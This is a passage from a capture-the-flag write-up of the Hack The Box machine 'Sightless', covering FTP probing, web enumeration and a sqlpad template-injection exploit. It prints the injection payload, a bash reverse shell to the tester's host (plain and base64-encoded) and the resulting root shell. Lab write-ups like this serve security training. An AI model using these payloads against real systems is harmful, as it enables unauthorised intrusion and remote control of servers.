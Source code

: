 ## FTP
Trying to connect to ftp anonymously fails, but actually not because of the credentials :
```terminal
┌──(samsam㉿pika-pika)-[~/Downloads]            
└─$ ftp 10.129.190.84                             
Connected to 10.129.190.84.                     
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.190.84]    
Name (10.129.190.84:samsam): 550 SSL/TLS required on the control channel  
ftp: Login failed                                                      
ftp> 
```
If we google this we realize we need an ftp client that supports SSL encryption. `lftp` does just that : 
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ lftp -u a,a ftp://sightless.htb -e "set ssl:verify-certificate no"
lftp a@sightless.htb:~> ls
ls: Login failed: 530 Login incorrect.
lftp a@sightless.htb:~>
```
We'll need to come back whenever we have credentials for this service.

## Web
Port 80 is open, and as nmap said is delivering web content. Accessing it returns a redirect to `sightless.htb`. After adding it to my `/etc/hosts` file, let's access it with firefox :
![[web.png]]
It's a really simple web page, none of the buttons work. I could try to bruteforce directories but this is not the way here. There's a link at the bottom mentionning a subdomain, `sqlpad.sightless.htb`.

## sqlpad.sightless.htb
Going to sqlpad.sightless.htb gives us access to a simple sqlpad interface : 
![[sqlpad.png]]
This is the right time to keep in mind that this is an easy box. Where on an insane/hard, we would probably have to understand a lot about how sqlpad works, this is not the case here. In fact we are on google search away from getting a shell. The website displays `sqlpad version 6.10.0`. Googling sqlpad exploit leads to [this post](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb), which describes a vulnerability affecting all sqlpad instance for versions prior to 6.10.1. The payload is the following :
```python
{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}
```
To get a shell from it, I'll use the standard bash reverse shell, and base64 encode it to avoid bad characters :
`bash -i >& /dev/tcp/10.10.14.201/2222 0>&1`. My final payload is :
```python
{{ process.mainModule.require('child_process').exec('echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMDEvMjIyMiAwPiYx |base64 -d|bash') }}
```
Now I follow the blog post describing the exploit, I create a new connection using the MySQL driver, and put my payload as the database :
![[editconnectionsqlpad.png]]
When I click on save, I do get a shell on my nc listener :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ nc -lnvp 2222                   
Listening on 0.0.0.0 2222
Connection received on 10.129.98.24 42392
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```